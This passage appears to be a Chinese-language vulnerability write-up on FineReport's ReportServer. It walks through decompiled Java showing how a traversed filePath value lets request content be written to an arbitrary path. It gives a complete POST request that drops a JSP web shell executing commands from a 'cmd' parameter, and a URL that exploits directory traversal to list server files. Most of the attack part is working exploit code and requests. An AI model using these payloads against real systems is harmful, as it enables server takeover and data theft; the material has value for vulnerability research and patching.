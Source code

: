 ```java
        }

        if (!var6.exists()) {
            var6.mkdirs();
        }

        InputStream var7 = HttpClient.getInputStream(var1);
        if (var7 != null) {
            FileOutputStream var8 = new FileOutputStream(var4);
            Utils.copyBinaryTo(var7, var8);
            String[] var9 = StableUtils.pathSplit(var4);
            String var10 = StableUtils.getFileNameWithOutPostfix(var9[var9.length - 1]);
            MapSvgXMLHelper.getInstance().pushMapAttr(var10, new MapSvgAttr(var4));
            var8.flush();
            var7.close();
            var8.close();
        }
    }
```
假如传入filePath的形式如：`filePath=chartmapsvg/../../../xxx.jsp`，那么会截取chartmapsvg后的内容拼接到`/WebReport/WEB-INF/assets/`之后。然后获取数据流var1中的内容，复制到拼接后的路径文件中。获取数据流的内容是从`__CONTENT__`中获取

```java
public static InputStream getInputStream(HttpServletRequest var0) {
    ByteArrayInputStream var1 = null;
    String var2 = (String)var0.getAttribute("__CONTENT__");
    Object var3 = var0.getAttribute("__CHARSET__");
    String var4 = var3 == null ? "UTF-8" : var3.toString();
    if (StringUtils.isNotEmpty(var2)) {
        byte[] var5;
        try {
            var5 = var2.getBytes(var4);
        } ...
        var1 = new ByteArrayInputStream(var5);
    }
    return var1;
}
```
数据包如下
```
POST /WebReport/ReportServer?op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/shell.svg.jsp HTTP/1.1

{"__CONTENT__":"<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(\"cmd\")).getInputStream();int a = -1;byte[] b = new byte[2048];while((a=in.read(b))!=-1){out.println(new String(b));}%>","__CHARSET__":"UTF-8"}
```


### 目录遍历漏洞
```
http://localhost:8075/WebReport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../../&currentUserName=admin&currentUserId=1&isWebReport=true
```
页面上会列出当前目录下的文件
